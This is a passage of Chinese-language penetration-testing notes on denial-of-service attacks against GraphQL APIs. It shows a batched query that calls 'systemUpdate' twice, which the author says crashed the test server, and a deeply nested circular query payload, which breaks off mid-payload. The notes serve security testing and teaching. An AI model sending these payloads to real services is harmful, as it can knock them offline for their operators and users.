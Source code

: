 查询两次 妈的服务器性能不好直接打崩了

```plain
[{"query":"query {\n systemUpdate\n}","variables":[]},{"query":"query {\n systemUpdate\n}","variables":[]}]
```

[![](assets/1708919658-af9884238dbcdde0d838dfd72d4888e3.png)](https://mayss.oss-cn-beijing.aliyuncs.com/image/image-20240218212157440.png)

实战中，我们测试到资源密集型的 Graphql 查询，就可以使用这种方法来证明 DOS

## DoS: Deep recursion query attack

深度递归查询攻击

不敢测试了 等下服务全崩了

```plain
https://github.com/dolevf/Black-Hat-GraphQL/blob/master/ch05/unsafe-circular-query.graphql
```

post data 大概长这样：

```plain
query {
  pastes {
    owner {
      paste {
        edges {
          node {
            owner {
              paste {
                edges {
                  node {
                    owner {
                      paste {
                        edges {
                          node {
                            owner {
                              id
```